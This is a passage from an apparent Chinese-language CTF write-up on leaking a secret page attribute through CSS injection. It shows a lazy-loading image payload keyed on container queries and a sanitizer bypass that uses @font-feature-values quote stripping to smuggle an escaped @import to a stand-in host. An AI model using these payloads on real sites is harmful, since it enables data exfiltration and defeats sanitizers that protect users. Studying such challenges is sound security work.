 因為 `@import` 跟 `url` 都被封住了，所以沒辦法只靠 CSS 來 leak，需要靠 HTML 的幫助，例如說最常用的 lazy-loading image。

把一個 img 先設成 `display:none` 並且加上 `loading=lazy`，就不會發出請求。接著用 CSS 設定成 `display:block`，就會發出請求（我記得以前我也試過，但不管怎樣都會發出請求，要嘛是我記錯，要嘛是 Chrome 中間有改過機制）

因此呢，就可以根據這一點來產生 payload，大致的內容如下：

``` html
<style>
  img {
    display:none;
  }
  .container{
    container-type: inline-size;
  }
  @container (min-width: 100px) {
    :host-context(body[secret*="00"]){ 
      .i00{ display:flex; }
    }
    :host-context(body[secret*="01"]){ 
      .i01{ display:flex; }
    }
  }
</style>
<div class="container">
  <img class=i00 loading=lazy src="URL?i00" />
  <img class=i01 loading=lazy src="URL?i01" />
</div>
```

不過這題的 payload 有字數限制，經過實測之後，發現最多大概只能有 13000 個字元左右，很明顯是不夠用的。

我們想 leak 出 bigram，因此需要 00 到 ff 一共 256 個，13000 / 256 = 50，鐵定會需要的 `:host-context(body[secret*="00"]){}` 就已經 35 個字了，只剩下 15 個字，除非有 url 可以用，否則做不到。

（話說 CSS spec 裡面有個 [src()](https://drafts.csswg.org/css-values/#urls)，看起來是 url 的替代用法，但沒作用，看來還沒實作）

就算真的能做到，還有另一個問題，那就是字元太多導致重複率太高。

secret 有 112 個字，因此如果是 bigram，會有 111 組，但我測了幾遍，能有 93 組就已經很難了，代表說有 18 組都是重複的。因此，就必須 brute-force 一下，但是 C(93, 18) = 7282746847637522000，怎麼看都不像是個可以暴力搜尋的數字。

因此，這個方向很可能是錯的，沒辦法。

那還有什麼方向呢？另一個方向是利用現有的機制來繞過檢查。

sanitizer 最後會回傳 safeCss，是由每一個 rule 的 cssText 組成的，如果可以讓最後的 cssText 有 `@impor\74` 之類的字元，就能夠繞過最後的檢查。

然後隊友就發現了 `@font-feature-values 'lol {}; @import "lol.com";p'` 在取出 cssText 後，會直接把單引號給去掉。而去掉引號之後，很顯然 CSS 的意思就改變了。

根據這點，就可以給一個這樣的 input：

``` html
<style>
  @font-feature-values 'lol; @\\0069mport "//exp.com";p' {}
</style>
```
